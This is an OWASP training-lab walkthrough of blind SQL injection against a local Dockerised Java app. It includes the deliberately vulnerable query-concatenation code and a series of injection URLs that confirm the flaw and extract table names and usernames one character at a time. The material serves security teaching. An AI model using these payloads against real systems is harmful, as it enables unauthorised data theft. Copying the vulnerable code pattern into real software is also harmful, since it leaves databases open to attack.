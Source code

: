 # SQLI \(Blind\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-sqli-blind
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-sqli-blind
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](../../.gitbook/assets/python/SQLI-Blind/1.png)

```text
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/python/SQLI-Blind/2.png)

```text
http://localhost:5000/home/1'
```

However, it's still not possile we can't see this as the application shows a 404 Error page.

### Step3

Now we need to inject logic operators to check if the application is vulnerable to SQL Injection.

First, we inject a logical operator which is true \(or 1=1\). This should result in the application run as intended without errors.

![](../../.gitbook/assets/python/SQLI-Blind/3.png)

```text
http://localhost:5000/home/1 OR 1=1
```

After that we inject a logical operator which is false \(and 1=2\). This should result in the application returning an error.

![](../../.gitbook/assets/python/SQLI-Blind/4.png)

```text
http://localhost:5000/home/1 AND 1=2
```

By doing so we are sure the application has a SQL Injection vulnerability.

This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```java
public List<Page> getPage(String pageId){
    String sql = "SELECT pageId, title, content FROM pages WHERE pageId="+pageId;
    List<Page> pages = jdbcTemplate.query(sql, (resultSet, rowNum) -> new Page(resultSet.getInt("pageId"),resultSet.getString("title"), resultSet.getString("content")));
    return pages;
}
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

We need to determine which conditions are TRUE and FALSE for the application. By trial and error it's possible to determine the pageIDs 1,2 and 3 are valid, whereas 4 is not.

![](../../.gitbook/assets/python/SQLI-Blind/5.png)

```text
http://localhost:5000/home/1
```

![](../../.gitbook/assets/python/SQLI-Blind/6.png)

```text
http://localhost:5000/home/4
```

#### Step 2

Now, we need to inject a IF condition, returning 1 for the TRUE cases and 4 for the FALSE ones.

![](../../.gitbook/assets/python/SQLI-Blind/7.png)

```text
http://localhost:5000/home/(select case when 1=1 then 1 else 4 end)
```

#### Step 3

Next step is to add more logic to our injection and starting to retrieve information from data tables. Remember we will never view the data we are retrieving from the DB in the page, but we will do it by logicaly testing if the data exists.

Let's check if the table users exists.

![](../../.gitbook/assets/python/SQLI-Blind/8.png)

```text
http://localhost:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

Good news! As we didn't see an error, it means the table _users_ exists.

By testing different table names, we will receive an 404 error, indicating the table does not exist.

![](../../.gitbook/assets/python/SQLI-Blind/9.png)

### Step 4

Let's try to extract a valid user. Instead of having a dictionary of possible users to guess, we can check if the first letter of the first user contains the letter _a_.

![](../../.gitbook/assets/python/SQLI-Blind/10.png)

```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

The error indicates it's not the case. Let's try with the letter _A_. Remember, case matters.

![](../../.gitbook/assets/python/SQLI-Blind/11.png)

```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 0,1)
```

Yes, it matches!

As initial guess, _Admin_ could be a possible user. So, let's test this theory:

```text
http://localhost:5000/home/(select case when substr(UserName,2,1)='d' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,3,1)='m' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,4,1)='i' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,5,1)='n' then 1 else 4 end from users limit 0,1)
```

We made it! None of the requests above returned _404 Error_, so this indicates _Admin_ is a valid value.

Now that you know the logic, you can extract all UserNames stored within this table.

Why not dumping the whole database?

Don't forget to play with Limit numbers to fetch more records.

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing_for_SQL_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)
